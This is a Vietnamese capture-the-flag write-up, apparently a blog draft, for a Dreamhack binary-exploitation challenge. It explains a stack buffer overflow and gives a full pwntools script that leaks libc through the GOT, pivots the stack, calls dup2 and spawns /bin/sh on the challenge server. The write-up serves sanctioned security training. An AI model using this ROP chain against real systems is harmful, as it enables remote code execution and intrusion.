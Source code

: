 +++
date = '2025-04-16T03:57:40+07:00'
draft = true
title = 'Dreamhack CTF Season 7 Round #5 (🚩Div1)'
+++

Giải này diễn ra tình cờ vào thời điểm mình vừa xong đợt trainning CTF nên có thời gian rảnh thử sức. Tuy nhiên bằng một cách thần kỳ nào đó mình lỡ bài rev khá tiếc mà giải được câu pwn này.

## Chat with Me - Binary exploitation

### I. Vulnerability
![image](https://hackmd.io/_uploads/SJxenTYj1l.png)

![image](https://hackmd.io/_uploads/B1rb3aFi1g.png)

Checksec và đọc Pseudocode trong IDA có NX, không có PIE và canary và có một lỗi buffer overflow:
```
_QWORD buf[97];
memset(buf, 0, 0x300uLL);
v12 = read(v13, buf, 0x600uLL);
```
Do chương trình có NX, vì vậy hướng tiếp cận sẽ không phải là ret2shellcode.

### II. Exploitation

Chương trình sử dụng nhiều hàm gọi từ libc trước khi yêu cầu nhập vào bộ đệm, đồng thời cho nhập tận 0x600 byte. Do vậy ý tưởng sẽ là leak giá trị từ bảng GOT và tìm libc_base. Đọc trong stack trên IDA, cần phải padding 840 byte thì chúng ta sẽ đến ret_address, thử nhập 848 byte để kiểm tra trong GDB:
![image](https://hackmd.io/_uploads/HkcUATtiJg.png)

Như vậy là chúng ta đã ghi đè được, tiếp đến chúng ta cần tìm các gadget để gọi hàm read, biết rằng fd của chúng ta là 4.
![image](https://hackmd.io/_uploads/Byc3CpFo1g.png)

Có sẵn một gadget rất đẹp ở đây. Tuy nhiên ở đây thì mình sợ rằng việc overflow sẽ khiến một vài hàm đặc biệt kiểm tra tình trạng kết nối làm mất connection nên để an toàn mình stack pivot sang một vùng có quyền rw, và do cũng không có PIE nên mình dễ dàng bổ sung vào payload các gadget để stack pivot và thực hiển read một lần nữa. Mình tìm thêm gadget pop_rbp và gadget leave_ret. Payload đầu tiên để leak libc_base và yêu cầu hàm read thêm 1 lần nữa.
```
payload=b'A'*840
payload+=p64(gadget)+p64(0)+p64(0x8)+p64(elf.got['puts'])+p64(4)
payload+=p64(elf.plt['send'])
payload+=p64(pop_rbp)+p64(0x404900)
payload+=p64(gadget+1)+p64(0x300)+p64(0x404900)+p64(4)
payload+=p64(elf.plt['read'])+p64(leave_ret)
```
Bình thường thì đến đây sẽ khá đơn giản vì payload thứ 2 là gọi system('/bin/sh'). Tuy nhiên điều phức tạp ở đây là fd của chúng ta là 4, còn shell tương tác với stdin và stdout ở fd=0 và fd=1. Chúng ta cần ép nó về fd=4:
```
dup2(4,0);
dup2(4,1);
```

### III. Script

```
from pwn import *
context.binary=elf=ELF('./chall',checksec=False)
libc=ELF('./libc.so.6',checksec=False)
gadget=0x0000000000401396
pop_rbp=0x40137d
push_rsp=0x207768
leave_ret=0x4016ca

p=remote('host3.dreamhack.games',20267)
p.recvuntil(b'Welcome to the TCP Chat Server!\n')

payload=b'A'*840
payload+=p64(gadget)+p64(0)+p64(0x8)+p64(elf.got['puts'])+p64(4)
payload+=p64(elf.plt['send'])
payload+=p64(pop_rbp)+p64(0x404900)
payload+=p64(gadget+1)+p64(0x300)+p64(0x404900)+p64(4)
payload+=p64(elf.plt['read'])+p64(leave_ret)
p.send(payload)

leak=u64(p.recvn(8))
log.info(f'leak: {hex(leak)}')
lib_base=leak-libc.sym['puts']
lib_system=lib_base+libc.sym['system']
log.info(f'lib base: {hex(lib_base)}')

payload=p64(0)+p64(gadget+2)+p64(0)+p64(4)+p64(libc.sym['dup2']+lib_base)
payload+=p64(gadget+2)+p64(1)+p64(4)+p64(libc.sym['dup2']+lib_base)
payload+=p64(gadget+3)+p64(lib_base+next(libc.search(b'/bin/sh')))+p64(gadget+4)+p64(lib_system)

p.send(payload)
p.interactive()
```
# IV. Reference
https://dreamhack.io/ctf/659